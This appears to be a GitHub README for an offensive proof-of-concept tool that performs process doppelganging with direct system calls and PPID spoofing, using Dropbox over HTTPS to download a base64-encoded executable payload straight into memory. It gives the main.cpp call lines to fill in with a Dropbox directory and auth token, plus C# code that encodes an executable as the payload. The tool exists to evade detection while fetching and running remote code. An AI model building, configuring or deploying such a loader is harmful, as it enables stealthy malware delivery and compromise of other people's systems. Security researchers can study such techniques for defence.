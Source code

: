 # ProcessDoppelganging

Process doppelganging POC using direct system calls, PPID spoofing and HTTPS sockets as an external delivery channel to download the payload directly into memory. As a POC, dropbox is used to deliver the payload but this can me easily modified.

If you wish to use dropbox, just change the following parameters at main.cpp and you are good to go.

```
std::string encoded = Read(ssl, "<FILE>", project, token);
...
Run("<DROPBOX DIRECTORY>", "<AUTH TOKEN>");
```

Payload has to be a base64 encoded executable file, I use the following c# code to generate the payloads:

```C#
byte[] data = File.ReadAllBytes(@"C:\Path\to\file.exe");
string payload = Convert.ToBase64String(data);

File.WriteAllText("payload.txt", payload);
```
